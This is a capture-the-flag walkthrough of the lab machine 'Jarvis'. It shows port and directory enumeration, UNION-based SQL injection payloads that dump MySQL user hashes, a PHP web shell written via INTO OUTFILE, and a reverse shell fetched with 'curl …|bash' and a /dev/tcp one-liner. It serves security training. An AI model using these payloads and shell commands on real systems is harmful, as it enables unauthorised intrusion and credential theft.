# Jarvis

.JPG>)

## Overview

The following exploits are covered for obtaining the flags on this target: ​

* User - SQLi to get database admin creds. Upload webshell using phpmyadmin to get RCE and a shell as www-data. User www-data can run python script as user pepper with sudo. Bypass character restrictions in python script using command substitution to get reverse shell as pepper.
* Root - Use SUID binary systemctl to create a new service as root. Enable the service and start it to get a reverse shell as root.

## Enumeration:

### Nmap

Let's begin with a basic nmap scan for all TCP ports:

```
└─$ sudo nmap -p- 10.10.10.143                       
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-12 08:15 EST
Nmap scan report for 10.10.10.143
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
64999/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds

```

Now that we have a list of open ports, let's run a more targeted nmap scan:

```
└─$ sudo nmap -sS -sV -A -p 22,80,64999 10.10.10.143 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-12 08:16 EST
Nmap scan report for 10.10.10.143
Host is up (0.026s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.12 (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.8 - 3.11 (94%), Linux 4.8 (94%), Linux 4.4 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   21.32 ms 10.10.14.1
2   21.50 ms 10.10.10.143

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.17 seconds

```

### Whatweb

Let's run whatweb against the target to see which technologies are being used for the webapp.

```
└─$ whatweb http://10.10.10.143/
http://10.10.10.143/ [200 OK] Apache[2.4.25], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[supersecurehotel@logger.htb], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.143], JQuery, Modernizr[2.6.2.min], Open-Graph-Protocol, Script, Title[Stark Hotel], UncommonHeaders[ironwaf], X-UA-Compatible[IE=edge]

```

### Gobuster

Let's run a gobuster scan against the target.

```
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.143 -q -k -x php
/index.php (Status: 200)
/images (Status: 301)
/nav.php (Status: 200)
/footer.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/connection.php (Status: 200)
/room.php (Status: 302)
/sass (Status: 301)
/server-status (Status: 403)

```

### Dirb

Let's run a dirb scan against the target.

```
└─$ dirb http://10.10.10.143                   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov 12 09:12:24 2021
URL_BASE: http://10.10.10.143/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.143/ ----
==> DIRECTORY: http://10.10.10.143/css/                                                                          
==> DIRECTORY: http://10.10.10.143/fonts/                                                                        
==> DIRECTORY: http://10.10.10.143/images/                                                                       
+ http://10.10.10.143/index.php (CODE:200|SIZE:23628)                                                            
==> DIRECTORY: http://10.10.10.143/js/                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/                                                                   
+ http://10.10.10.143/server-status (CODE:403|SIZE:300)                                                          
                                                                                                                 
---- Entering directory: http://10.10.10.143/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/ ----
+ http://10.10.10.143/phpmyadmin/ChangeLog (CODE:200|SIZE:19186)                                                 
==> DIRECTORY: http://10.10.10.143/phpmyadmin/doc/                                                               
==> DIRECTORY: http://10.10.10.143/phpmyadmin/examples/                                                          
+ http://10.10.10.143/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)                                               
+ http://10.10.10.143/phpmyadmin/index.php (CODE:200|SIZE:15220)                                                 
==> DIRECTORY: http://10.10.10.143/phpmyadmin/js/                                                                
==> DIRECTORY: http://10.10.10.143/phpmyadmin/libraries/                                                         
+ http://10.10.10.143/phpmyadmin/LICENSE (CODE:200|SIZE:18092)                                                   
==> DIRECTORY: http://10.10.10.143/phpmyadmin/locale/                                                            
+ http://10.10.10.143/phpmyadmin/phpinfo.php (CODE:200|SIZE:15215)                                               
+ http://10.10.10.143/phpmyadmin/README (CODE:200|SIZE:1520)                                                     
+ http://10.10.10.143/phpmyadmin/robots.txt (CODE:200|SIZE:26)                                                   
==> DIRECTORY: http://10.10.10.143/phpmyadmin/setup/                                                             
==> DIRECTORY: http://10.10.10.143/phpmyadmin/sql/                                                               
==> DIRECTORY: http://10.10.10.143/phpmyadmin/templates/                                                         
==> DIRECTORY: http://10.10.10.143/phpmyadmin/themes/                                                            
==> DIRECTORY: http://10.10.10.143/phpmyadmin/tmp/                                                               
==> DIRECTORY: http://10.10.10.143/phpmyadmin/vendor/                                                            
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/doc/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/examples/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/libraries/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/locale/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/setup/ ----
==> DIRECTORY: http://10.10.10.143/phpmyadmin/setup/frames/                                                      
+ http://10.10.10.143/phpmyadmin/setup/index.php (CODE:200|SIZE:10571)                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/setup/lib/                                                         
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/sql/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/tmp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/setup/frames/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://10.10.10.143/phpmyadmin/setup/lib/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Nov 12 09:16:51 2021
DOWNLOADED: 13836 - FOUND: 10
```

## Website exploration

#### ​​Review the source code for each page

Let's have a look at the page source and make a note of anything interesting:

* Home page has reference to "supersecurehotel.htb", although the link doesn't go anywhere,  and "supersecurehotel@logger.htb"
* Basic website, using PHP and some other general web technologies, uses PHPSESSID cookie
* Rooms page uses a variable as input for specific room, possible sql injection, need to test this
* There is a phpmyadmin page, baic default creds options do not work, such as admin:admin, root:root, admin:password etc

#### Review the source code for any scripts that are being used on each page

Let's have a look at the scripts using the browser dev tools and make a note of anything interesting:

* Nothing interesting found in scripts from quick once over

Let's visit the pages and look around.

.JPG>)

Most of the links don't work, but the link to the rooms page and the dining & bar page do work. On the rooms page, clicking on "Book" on any of the rooms takes us to another page, which is using the room we clicked on as input to a variable "cod", so this is worth taking note of as we could test this for sqli. The "order" options on the dining & bar page do not work.

.JPG>)

There is also the "phpmyadmin" page, which requires some credentials. We may need to come back to this later as attempts to use basic credentials here doesn't work.

.JPG>)

The [http://10.10.10.143/phpmyadmin/ChangeLog](http://10.10.10.143/phpmyadmin/ChangeLog) confirms that the phpmyadmin version is 4.8.0 (2018-04-07), which we should also make a note of.

## RCE Method 1 - SQLi & phpmyadmin (long way)

This is a fairly detailed path to RCE. We wanted to write this in a tutorial style and so it is quite long.

### SQL Injection - Discovery&#x20;

Let's investigate and probe the parameter on the room booking page.

We'll test to confirm if there is an injection point or not. For this, we'll use BURP suite and the Foxyproxy add-on for Firefox. You don't need to do it this way, but for this article, this is what we'll be using. For instructions on how to set this up check out the following article:



Let's establish a simple basline against which to measure our tests. For this particular target, we will be using the "Content-Length: " header value.

Start BURP, configure the browser to use BURP, and start browsing. After clicking on any one of the "Book now" buttons on the rooms page, go back into BURP, find the GET request ([http://10.10.10.143/room.php?cod=](http://10.10.10.143/room.php?cod=2)**1**), right click on it and send it to the repeater. Go to the repeater tab, and click the "Go" button.&#x20;

We get a response back from the server with a "Content-Length: 6204" header, amongst others, as shown below:

.JPG>)

This is the first part of our baseline, a valid query with a valid response. Next, let's see what response we get when we enter an incorrect value, for example [http://10.10.10.143/room.php?cod=](http://10.10.10.143/room.php?cod=2)**99**

.JPG>)

As we can see, we get a response back with a different content length. This is the second part of our baseline. Going forward, we can compare our results to this set or pair of queries, which will help us to determine how this code is working under the hood.

Another step that I think is very important here is to try and understand what is happening on the server side. For example, we could summise the following just by browsing and clicking on the page:

* User clicks to book a room
* Browser sends request with a parameter linked to the specific item clicked
* Server receives the request, constructs and send a SQL query to the database, parses the returned data, reconstructs the page, and sends the response to the requestor
* Looking at the returned page, we see an image, star rating, room type, cost, description and room id value (from the initial GET request)
* That adds up to 6 pieces of returned data being displayed back to the requestor, therefore we can assume that the table in the database on the server containing the data has at least 6 columns&#x20;
* It's important to realise that there may be other data returned from the database that is not being displayed, or some data that is just not being returned, but this gives us a good idea of what might be happening in the background and what the table structure may look like
* Based on the above, we can make an educated guess at the basic structure of the SQL query:
  * SELECT image, star rating, room type, cost, description, room id FROM _table\_name _WHERE cod=1;


NOTE: It's helpful to create a table to keep track of what has been tested and the results of those tests. In this case, we are using the content length, but it could be whatever makes the logic work within a specific test scenario and should therefore be adapted as applicable. Scroll down to see the table format being used here.


Let's start with the classic SQLi test using a single qoute at the end of the URL:

.JPG>)

The content size returned is 5916.&#x20;


Note that we will need to URL encode the payloads in BURP before sending them. If we don't the server replies with an error:

400 Bad Request


Let's add some boolean logic to our tests. In order to interpret the results, we need to do two tests, one for True and one for False. We can try the following two sets of queries, where, for the first set, we get a response size of 5916, and the second set we get a response size of 6204.

```
http://10.10.10.143/room.php?cod=1' OR 1=1     --> expected response size = 6204
http://10.10.10.143/room.php?cod=1' OR 1=2     --> expected response size = 5916

http://10.10.10.143/room.php?cod=1' OR '1'='1' --> expected response size = 6204
http://10.10.10.143/room.php?cod=1' OR '1'='2' --> expected response size = 5916
```

Ok, so what does this mean? Basically, it means that our queries are not working.

Thus far, we have been using a single or double (not shown - see tables below) qoute after the room code value, however, since the value is an integer, perhaps the developer didn't use qoutes at all, and so let's try the following:

```
http://10.10.10.143/room.php?cod=1 OR 1=1    --> expected response size = 6204
http://10.10.10.143/room.php?cod=1 OR 1=2    --> expected response size = 5916
```

Both of the above queries return a response size of 6204, which is not what we are expecting to see. Let's try the query using the "AND" operator instead of the "OR" operator.

```
http://10.10.10.143/room.php?cod=1 AND 1=1   --> expected response size = 6204
http://10.10.10.143/room.php?cod=1 AND 1=2   --> expected response size = 5916
```

This works, and we get the expected responses back. Thus far, we have confirmed that there is a vulnerable injection point, and we have confirmed that we can manipulate the query to get back expected results. Our table at this stage is as follows:

.JPG>)

### SQL Injection - Data Extraction

In order to actually extract data from the table, we need to know a few pieces of information including the following:

* The number of columns
* The database software and version
* The current database name & other database on the system
* The table name/s of the target database
* The name of each column in the target table of the target database

To do this, we will use the "UNION" injection technique. For more information on this check out the following article:




NOTE: These requirements may vary depending on the database software being used, the specific scenario and possibly other factors. However, in general, this list will prove to be very handy.


#### Determine number of columns

To determine the number of columns, and using the UNION SELECT clause, we'll send the following payloads:

```
http://10.10.10.143/room.php?cod=1 UNION SELECT NULL,NULL
http://10.10.10.143/room.php?cod=1 UNION SELECT NULL,NULL,NULL
http://10.10.10.143/room.php?cod=1 UNION SELECT NULL,NULL,NULL,NULL
http://10.10.10.143/room.php?cod=1 UNION SELECT NULL,NULL,NULL,NULL,NULL
http://10.10.10.143/room.php?cod=1 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL
http://10.10.10.143/room.php?cod=1 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL
```

We start with two "null" values, and increment with each request, until we reach 7 "NULL" values. Table below summarizes the results:

.JPG>)

Based on the above, we can assume that there are 7 columns.&#x20;

#### Determine database software version

Now that we know the number of columns, we need to change our approach slightly. Instead of requesting a valid room id, we need to request a known invalid one, i.e 99. This is because we want the page to be populated with the data from the UNION SELECT clause and not the original SELECT query.

Let's try and grab the database software and version information as follows:

```
cod=99+UNION+SELECT+@@version,NULL,NULL,NULL,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,@@version,NULL,NULL,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,@@version,NULL,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,@@version,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,NULL,@@version,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,@@version,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,@@version
```

The screenshot below shows the result from the payload in row 3 above. All of the first 6 worked, but row 7 didn't. Since I got returned data, I'm not going to worry about that. I chose row 3 because I can easily search for "price-room" to see the output for future requests, as shown below. BURP also has a handy "Auto-scroll" option which goes directly to the string being searched for. This can be enabled by clicking on the "+" button in the response pane.&#x20;



Now that we know the database is running MariaDB (MySQL variant), we can customize our queries to this specific target. MySQL has a number of built in functions we can use to extract more information:

```
cod=99+UNION+SELECT+NULL,NULL,database(),NULL,NULL,NULL,NULL    --> Result: "price-room">hotel
cod=99+UNION+SELECT+NULL,NULL,user(),NULL,NULL,NULL,NULL        --> Result: "price-room">DBadmin@localhost
cod=99+UNION+SELECT+NULL,NULL,@@hostname,NULL,NULL,NULL,NULL	--> Result: "price-room">jarvis
cod=99+UNION+SELECT+NULL,NULL,@@datadir,NULL,NULL,NULL,NULL	--> Result: "price-room">/var/lib/mysql/
```

The output from these queries provides us with some very useful information. We now know the database being queries is called "hotel". Let's see if we can find out the name of all the databases on the system.

#### Determine all databases on target

For this we will query the INFORMATION\_SCHEMA.SCHEMATA table, which stores information about all the databases on the system. For more information on this, see the following page:



Currently we are only using one field to retreive data, and one piece of data per query. In order to speed things up, we can extract multiple entries in the database by using the GROUP\_CONCAT function. For more information on this, see the following page:



The query for this is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT(SCHEMA\_NAME) FROM INFORMATION\_SCHEMA.SCHEMATA),NULL,NULL,NULL,NULL

Below are the results:



There are 4 databases, namely: hotel, information\_schema, mysql, performance\_schema

Let's focus on the "mysql" database for now, and if we need to we could always repeat the next steps for each database we are interested in.

#### Determine tables in "mysql" database

The query is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT(TABLE\_NAME) FROM INFORMATION\_SCHEMA.TABLES WHERE TABLE\_SCHEMA="mysql"),NULL,NULL,NULL,NULL

The results:



Of the tables listed, the one I'm interested in is the "user" table.

#### Determine columns in "user" table in "mysql" database

The query is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT(COLUMN\_NAME) FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA="mysql" AND TABLE\_NAME="user"),NULL,NULL,NULL,NULL

The results:



#### Data Extraction

The query to extract data from the "User" and "Password" fields is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT("\r\n",User,":",Password) FROM mysql.user),NULL,NULL,NULL,NULL

The results:



Nice, we have extracted some user credentials, albeit a username and a hashed password.

> DBadmin:\*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

We can use an online hash cracker to easily crack this hash, for example [https://crackstation.net/](https://crackstation.net). We now have the following set of creds:

> DBadmin:imissyou

We now have a set of credentials, and we can use it to successfully login to the [http://10.10.10.143/phpmyadmin](http://10.10.10.143/phpmyadmin/) page.



### Phpmyadmin

We can check the user privileges for "DBadmin" as follows:

```
select * from mysql.user where user = substring_index(user(), '@', 1);
```



One of the privileges the user has is "File\_priv=Y". This means that we should be able to read and write files to the system. Let's test if we can read a file first:

```
select load_file('/etc/passwd');
```



Nice. If we can write a file to the disk, we should be able to get code execution. Before doing that though, let's confirm the webroot directory by reading the index.php file from it:

```
select load_file('/var/www//html/index.php');
```



Excellent. Let's write a file to the webroot using the following query:

```
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www//html/ab12.php";
```



Let's confirm the file has been created:

```
select load_file('/var/www//html/ab12.php');
```



Great, all we need to do now is visit the page to get remote code execution:



## RCE Method 2 - SQLi INTO OUTFILE

The quick way to get RCE is to simply write a file to the target using the SQLi we found in the rooms.php page.

> cod=99 UNION SELECT NULL,NULL,(SELECT ''),NULL,NULL,NULL,NULL INTO OUTFILE '/var/www/html/cd23.php'

Using BURP, send the payload to the target. The response we get back includes the "Content-Length: 5916" header, and so there is no confirmation that this worked.&#x20;



However, browsing to the page at [http://10.10.10.143/cd23.php](http://10.10.10.143/cd23.php?cmd=id) confirms it has been created, and we can now execute commands on the target.



## Gaining Access

Let's use the RCE to get a reverse shell as the "www-data" user with the following commands:

Start a listener:

```
└─$ sudo nc -nvlp 443                                                                                       130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```

Create a basic shell script:

```
└─$ cat shell.sh    
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.7/443 0>&1

```

Start a python web server in the directory the shell script is in:

```
└─$ sudo python3 -m http.server 80                                                    
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Construct the payload URL, and paste it into a browser:

**http://10.10.10.143/ab12.php?cmd=curl 10.10.14.7/shell.sh|bash**

The target downloads the shell script and executes it, which gives us the reverse shell:

```
└─$ sudo python3 -m http.server 80                                                    
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.143 - - [14/Nov/2021 09:24:34] "GET /shell.sh HTTP/1.1" 200 -

```

```
└─$ sudo nc -nvlp 443                                                                                       130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:39982.
bash: cannot set terminal process group (606): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jarvis:/var/www/html$ 

```

## Enumeration as "www-data"

Let's gather basic system information:

```
www-data@jarvis:/var/www/html$ uname -a;cat /etc/*-release;ss -lntp
uname -a;cat /etc/*-release;ss -lntp
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      80     127.0.0.1:3306                     *:*                  
LISTEN     0      128          *:22                       *:*                  
LISTEN     0      128         :::64999                   :::*                  
LISTEN     0      128         :::80                      :::*                  
LISTEN     0      128         :::22                      :::*  
www-data@jarvis:/var/www/html$
```

Next, let's browse the webroot:

```
